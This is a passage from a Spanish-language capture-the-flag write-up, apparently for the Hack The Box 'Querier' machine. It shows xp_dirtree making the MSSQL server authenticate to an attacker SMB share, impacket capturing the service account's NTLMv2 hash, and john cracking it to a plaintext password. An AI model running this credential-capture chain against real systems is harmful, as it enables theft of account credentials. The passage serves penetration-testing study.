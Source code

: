 ```bash
SQL> xp_dirtree "\\10.10.14.2\smbFolder\test"
subdirectory                                                                                                                                                                                                                                                            depth   

---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------   -----------   

SQL>
```

```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.125,49694)
[*] AUTHENTICATE_MESSAGE (QUERIER\mssql-svc,QUERIER)
[*] User QUERIER\mssql-svc authenticated successfully
[*] mssql-svc::QUERIER:aaaaaaaaaaaaaaaa:8bd4caf70224f8aebc7c79404049305d:0101000000000000800c9068ffabd701410f4a3dd8d7221300000000010010005a0077007100570073004c004b007900030010005a0077007100570073004c004b007900020010004100500068004f0064004c0050007500040010004100500068004f0064004c005000750007000800800c9068ffabd70106000400020000000800300030000000000000000000000000300000b58fdd1714e6ed624db2b7fbba1433facc61ba9747ccbeaf3c5b2e7f2aa100d40a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003200000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
[*] AUTHENTICATE_MESSAGE (\,QUERIER)
[*] User QUERIER\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:smbFolder)
[*] Closing down connection (10.10.10.125,49694)
[*] Remaining connections []
```

En nuestra máquina de atacante podemos un hash NTLMv2 el cual **NO** nos service para hacer *pass the hash*; pero podriamos tratar de crackearlo para ver la contraseña en texto claro. Por lo que creamos un archivo llamado *hash* en el cual pegamos el hash de NTLMv2 que vemos y ocupamos la herramienta `john`. En algunos casos es posible que `john` no pueda crackear el hash, en caso de que suceda, obtener un nuevo hash y tratar de crackearlo o hacer uso de [Responder](https://github.com/SpiderLabs/Responder).

```bash
❯ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
corporate568     (mssql-svc)
1g 0:00:00:30 DONE (2021-09-17 15:10) 0.03235g/s 289819p/s 289819c/s 289819C/s corpron50..corporal40
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```
